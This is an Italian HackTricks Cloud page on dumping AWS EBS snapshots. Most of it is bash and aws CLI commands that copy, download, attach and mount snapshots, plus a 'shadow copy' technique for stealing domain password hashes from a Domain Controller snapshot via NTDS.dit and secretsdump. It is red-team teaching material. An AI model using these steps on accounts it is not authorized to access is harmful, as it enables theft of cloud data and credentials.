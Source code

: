 # AWS - Dump di Snapshot di EBS

<details>

<summary><strong>Impara l'hacking su AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>

## Verifica di uno snapshot in locale
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Nota** che `dsnap` non ti permetterà di scaricare snapshot pubblici. Per aggirare questo problema, puoi fare una copia dello snapshot nel tuo account personale e scaricarlo da lì:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Per ulteriori informazioni su questa tecnica, controlla la ricerca originale su [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puoi fare ciò con Pacu utilizzando il modulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Verifica di uno snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montalo in una VM EC2 sotto il tuo controllo** (deve essere nella stessa regione della copia del backup):

Passaggio 1: Deve essere creato un nuovo volume della dimensione e tipo preferiti dirigendosi su EC2 –> Volumi.

Per poter eseguire questa azione, segui questi comandi:

* Crea un volume EBS da allegare all'istanza EC2.
* Assicurati che il volume EBS e l'istanza siano nella stessa zona.

Passaggio 2: Seleziona l'opzione "allega volume" facendo clic con il tasto destro sul volume creato.

Passaggio 3: Seleziona l'istanza dalla casella di testo dell'istanza.

Per poter eseguire questa azione, utilizza il seguente comando:

* Allega il volume EBS.

Passaggio 4: Accedi all'istanza EC2 e elenca i dischi disponibili utilizzando il comando `lsblk`.

Passaggio 5: Verifica se il volume contiene dati utilizzando il comando `sudo file -s /dev/xvdf`.

Se l'output del comando precedente mostra "/dev/xvdf: data", significa che il volume è vuoto.

Passaggio 6: Formatta il volume al filesystem ext4 utilizzando il comando `sudo mkfs -t ext4 /dev/xvdf`. In alternativa, puoi utilizzare anche il formato xfs utilizzando il comando `sudo mkfs -t xfs /dev/xvdf`. Si noti che è necessario utilizzare ext4 o xfs.

Passaggio 7: Crea una directory a tua scelta per montare il nuovo volume ext4. Ad esempio, puoi utilizzare il nome "newvolume".

Per poter eseguire questa azione, utilizza il comando `sudo mkdir /newvolume`.

Passaggio 8: Monta il volume nella directory "newvolume" utilizzando il comando `sudo mount /dev/xvdf /newvolume/`.

Passaggio 9: Cambia directory nella directory "newvolume" e controlla lo spazio disco per convalidare il mount del volume.

Per poter eseguire questa azione, utilizza i seguenti comandi:

* Cambia directory in `/newvolume`.
* Controlla lo spazio disco utilizzando il comando `df -h .`. L'output di questo comando dovrebbe mostrare lo spazio libero nella directory "newvolume".

Puoi fare ciò con Pacu utilizzando il modulo `ebs__explore_snapshots`.

## Verifica di uno snapshot in AWS (utilizzando la cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Copia ombra

Qualsiasi utente AWS che possiede il permesso **`EC2:CreateSnapshot`** può rubare gli hash di tutti gli utenti di dominio creando uno **snapshot del Domain Controller**, montandolo su un'istanza da loro controllata ed **esportando il file NTDS.dit e il registro di sistema SYSTEM** per l'uso con il progetto secretsdump di Impacket.

Puoi utilizzare questo strumento per automatizzare l'attacco: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oppure potresti utilizzare una delle tecniche precedenti dopo aver creato uno snapshot.

## Riferimenti

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
